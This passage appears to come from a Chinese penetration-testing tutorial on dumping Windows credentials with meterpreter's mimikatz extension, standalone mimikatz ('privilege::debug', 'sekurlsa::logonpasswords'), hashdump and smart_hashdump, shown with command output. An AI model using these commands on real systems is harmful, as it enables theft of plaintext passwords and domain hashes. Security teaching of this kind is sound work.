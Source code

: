 在 Windows 上抓取密码的工具，最著名的当属 mimikatz，在 Metasploit 中也有集成，直接通过 load mimikatz 命令即可加载使用。

```
meterpreter > load mimikatz
Loading extension mimikatz...[!] Loaded x86 Mimikatz on an x64 architecture.
[!] Loaded Mimikatz on a newer OS (Windows 7 (6.1 Build 7601, Service Pack 1).). Did you mean to 'load kiwi' instead?
Success.
meterpreter > help
...
Mimikatz Commands
=================
    Command           Description
    -------           -----------
kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom command
    msv               Attempt to retrieve msv creds (hashes)
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
meterpreter > wdigest
```

由于 Metasploit 默认加载的是 32 位的 Mimikatz 程序，在 x64 机器上运行会导致 wdigest 读取密码失败了，只能获取密码哈希。

![Drawing 19.png](https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEcKAPB1IAAF7z9fhxL0342.png)

图 20 获取密码哈希

这种情况下，只能自己上传 64 位的 mimikatz 程序去获取明文密码，可以从[官方下载](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip)，运行 mimikatz 后通过以下两条命令，即可实现明文密码的获取：

```
# 提升权限
privilege::debug 
# 搜索明文密码
sekurlsa::logonpasswords
```

![Drawing 20.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEcmAdN4ZAABC3Bc6dFs102.png)

图 21 获取系统的账号与密码

除了 Mimikatz 外，还可以利用 hashdump 可导出当前机器的密码 Hash：

![Drawing 21.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEdGAWOPMAAFVZckrEAI446.png)

图 22 利用 hashdump 可导出当前机器的密码 Hash

利用 smart\_hashdump 还可以获取域内用户的密码 Hash，但需要 system 权限：

![图片23.png](https://s0.lgstatic.com/i/image6/M00/03/97/Cgp9HWAfY5WAYTl7AALWnzNVoVk263.png)

图 23 利用 smart\_hashdump 导出域内用户的密码 Hash
